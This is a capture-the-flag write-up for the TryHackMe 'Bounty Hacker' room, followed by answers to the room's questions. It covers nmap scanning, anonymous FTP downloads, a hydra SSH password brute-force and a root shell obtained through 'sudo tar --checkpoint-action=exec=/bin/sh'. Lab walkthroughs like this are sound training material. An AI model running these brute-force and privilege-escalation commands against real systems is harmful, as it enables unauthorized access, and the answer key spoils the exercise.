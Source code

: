 # [THM] - Bounty Hacker

[Room link](https://tryhackme.com/room/cowboyhacker)

---

## Enumeration

Nmap :

```bash
$ sudo nmap -sS -oN <file> <target_ip>
[...]
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

---

### FTP 

The ftp service as anonymous is allowed. First, we need to turn off the passive mode. After that, we can download the files.

```bash
ftp> passive
Passive mode: off; fallback to active mode: off.
ftp> ls
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
226 Directory send OK.
ftp> get locks.txt
local: locks.txt remote: locks.txt
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for locks.txt (418 bytes).
100% |*****************************************|   418        4.27 KiB/s    00:00 ETA
226 Transfer complete.
418 bytes received in 00:00 (3.19 KiB/s)
ftp> get task.txt
local: task.txt remote: task.txt
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for task.txt (68 bytes).
100% |*****************************************|    68        0.75 KiB/s    00:00 ETA
226 Transfer complete.
68 bytes received in 00:00 (0.56 KiB/s)
```

This files are really interesting. 

task.txt is signed by "lin". Probably an user.

locks.txt contains some strings which looks like examples of passwords. 

---

## Exploitation

Let's try to bruteforce the ssh with hydra.

```bash
$ hydra -l lin -P locks.txt <target_ip> ssh
[...] 
[DATA] attacking ssh://10.10.198.158:22/
[22][ssh] host: 10.10.198.158   login: lin   password: **********
```

That works.

Let's connect us to the target throught ssh.

```bash
Last login: Sun Jun  7 22:23:41 2020 from 192.168.0.14
lin@bountyhacker:~/Desktop$ 
```

We are in.

---

## Flag user

The user flag is here -> /home/lin/Desktop/user.txt

---

## Flag root

Check the commands available with this follow command :

```bash
$ sudo -l 
[...]
User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```

Use this command to get a shell as root :

```bash
$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
nt-action=exec=/bin/sh
tar: Removing leading `/' from member names
# 
# ls -l
total 4
-rw-r--r-- 1 root root 19 Jun  7  2020 root.txt
```

The root flag is here -> /root/root.txt

---

## Question Section

1. Deploy the machine.

**No aswer needed**

2. Find open ports on the machine

**No aswer needed**

3. Who wrote the task list? 

**lin**

4. What service can you bruteforce with the text file found?

**ssh**

5. What is the users password? 

**Run bruteforce of the ssh service with the user "lin" and password file locks.txt**

6. user.txt

**/home/lin/Desktop/user.txt**

7. root.txt 

**/root/root.txt**

